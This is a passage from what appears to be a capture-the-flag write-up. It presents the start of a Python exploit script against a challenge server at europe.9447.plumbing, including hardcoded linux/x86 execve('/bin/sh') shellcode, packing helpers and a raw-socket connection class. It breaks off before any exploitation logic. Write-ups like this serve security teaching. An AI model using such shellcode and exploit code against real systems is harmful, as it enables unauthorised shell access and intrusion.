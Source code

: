 And here is the full exploit code. Enjoy :)

{% highlight python %}
#!/usr/bin/env python
#coding: UTF-8

import re
import sys
import time
import struct
import socket
import select

TARGET = ('europe.9447.plumbing', 9447)

# linux/x86 Shellcode execve ("/bin/sh")
SHELLCODE = (b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f'
             b'\x73\x68\x68\x2f\x62\x69\x6e\x89'
             b'\xe3\xb0\x0b\xcd\x80')

#
# Helper Functions
#
def e(s):
    return s.encode('UTF-8')

def d(s):
    return s.decode('UTF-8')

def p(d, fmt='<I'):
    return struct.pack(fmt, d)

def u(d, fmt='<I'):
    return struct.unpack(fmt, d)

def u1(d, fmt='<I'):
    return u(d, fmt)[0]

#
# Networking
#

# The default timeout (in seconds) to use for all operations that may raise an exception
DEFAULT_TIMEOUT = 5

class Connection:
    """Connection abstraction built on top of raw sockets."""

    def __init__(self, remote):
        self._socket = socket.create_connection(remote, DEFAULT_TIMEOUT)

        # Disable kernel TCP buffering
        self._socket.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)

    def __enter__(self):
        return self

    def __exit__(self, type, value, traceback):
        self.disconnect()

    def disconnect(self):
        """Shut down and close the socket."""